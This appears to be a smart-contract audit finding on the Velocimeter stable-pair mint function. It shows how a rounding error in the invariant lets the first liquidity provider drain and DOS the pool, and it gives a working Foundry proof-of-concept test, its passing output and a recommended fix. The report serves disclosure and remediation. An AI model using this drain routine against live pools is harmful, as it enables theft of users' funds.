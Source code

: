 Macho Pine Lemur

High

# The first liquidity provider of a stable pair can DOS the pool

## Summary

The first liquidity provider of a stable pair can DOS the pair due to the rounding error inside the mint function.

## Vulnerability Detail

The invariant `k` of a stable pool is calculated as follows:

```Solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```
The value of `_a = (x * y ) / 1e18` equals to 0 due to rounding error when `x * y < 1e18`. The rounding error can lead to the invariant `k` for stable pools equals zero, and the trader can steal whatever is left in the pool. 
The first liquidity provider can DOS the pair by: 

1. mint a small amount of liquidity to the pool, 
2. Steal whatever is left in the pool, 
3. Repeat step 1, and step 2 until the overflow of the total supply.

To prevent the issue of rounding error, the reserve of a pool should never go too small. The `mint()` function which was taken from uniswapV2 has a minimum liquidity check of 
`sqrt(a * b) > MINIMUM_LIQUIDITY`; This, however, isn't safe enough to protect the invariant formula of stable pools.

```Solidity
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
...
    }
```

## Proof of Concept

Consider adding this test to `Pair.t.sol`:

```Solidity

    function drainPair(Pair _pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(_pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        _pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(_pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        _pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {

        deployCoins();
        deployPairFactoryAndRouter();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        Pair pair1 = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for(uint i = 0; i < 10; i++) {
        DAI.transfer(address(pair1), 10_000_000);
        FRAX.transfer(address(pair1), 10_000_000);
        // as long as 10_000_000^2 < 1e18
        uint liquidity = pair1.mint(address(this));
        console.log("pair:", address(pair), "liquidity:", liquidity);
        console.log("total liq:", pair1.balanceOf(address(this)));
        drainPair(pair1, FRAX.balanceOf(address(pair1)) , DAI.balanceOf(address(pair1)));
        console.log("DAI balance:", DAI.balanceOf(address(pair1)));
        console.log("FRAX balance:", FRAX.balanceOf(address(pair1)));
        require(DAI.balanceOf(address(pair1)) == 1, "should drain DAI balance");
        require(FRAX.balanceOf(address(pair1)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(pair1), 1 ether);
        FRAX.transfer(address(pair1), 1 ether);
        vm.expectRevert();
        pair1.mint(address(this));
    }
```

Output:

```Markdown
Running 1 test for test/Pair.t.sol:PairTest
[PASS] testDestroyPair() (gas: 17686562)
Logs:
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 9999000
  total liq: 9999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 50000000000000
  total liq: 50000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 250000050000000000000
  total liq: 250000100000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 1250000500000050000000000000
  total liq: 1250000750000150000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 6250003750000750000050000000000000
  total liq: 6250005000001500000200000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 31250025000007500001000000050000000000000
  total liq: 31250031250012500002500000250000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 156250156250062500012500001250000050000000000000
  total liq: 156250187500093750025000003750000300000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 781250937500468750125000018750001500000050000000000000
  total liq: 781251093750656250218750043750005250000350000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 3906255468753281251093750218750026250001750000050000000000000
  total liq: 3906256250004375001750000437500070000007000000400000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0xbF5f579f22533bFcc6723e0b50B3406A5cDf4394 liquidity: 19531281250021875008750002187500350000035000002000000050000000000000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000
  DAI balance: 1
  FRAX balance: 2

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.70ms

```

## Impact

First liquidity provider of a stable pair can DOS the pool and this would lead to stealing the funds until the overflow of the total supply

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250

## Tool used

Manual Review

## Recommendation

Consider adding these two restrictions on the first lp of stable pools:
1. only allows equal amounts of liquidity.
2. invariant _k should be larger than the MINIMUM_K:

```diff
    uint256 internal constant MINIMUM_LIQUIDITY = 10**3;
+   uint256 internal constant MINIMUM_K = 10**10;

...

    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
+           if (stable) {
+               require(
+                   (_amount0 * 1e18) / decimals0 == (_amount1 * 1e18) / decimals1,
+                   "Pair: stable deposits must be equal"
+               );
+               require(_k(_amount0, _amount1) > MINIMUM_K, "Pair: stable deposits must be above minimum k");
            }
```
